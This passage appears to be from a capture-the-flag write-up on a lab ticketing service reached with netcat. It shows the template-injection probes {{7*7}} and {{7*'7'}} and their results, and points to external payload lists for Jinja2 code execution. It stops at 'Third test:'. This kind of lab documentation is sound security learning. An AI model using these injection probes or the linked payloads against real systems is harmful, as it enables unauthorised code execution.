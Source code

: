 I login as guest. The main point of this service is to generate a ticket, but that really doesn't matter to my interests. The fact I have some control over what gets rendered on the website is what counts. This means that, if I can get SSTI, I can execute it on the website.

There are a few steps to use to verify there is SSTI. You can find this chart ![here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

First test:

```bash
$ nc 192.168.122.102 31337
username> guest
password> guest

Welcome to our own ticketing system. This application is still under
development so if you find any issue please report it to mail@mzfr.me

Enter "help" to get the list of available commands.

> open
Title: test2
Description: {{7*7}}
> exit
```

Result: 49

![2](screenshots/2.png)

So this is SSTI.
Second test:

```bash
$ nc 192.168.122.102 31337
username> guest
password> guest

Welcome to our own ticketing system. This application is still under
development so if you find any issue please report it to mail@mzfr.me

Enter "help" to get the list of available commands.

> open
Title: test3
Description: {{7*'7'}}
> exit
```

Result: 7777777

![3](screenshots/3.png)

Since Jinja may be the backend here, I'll use this implemetation to get code execution: https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/

Third test:
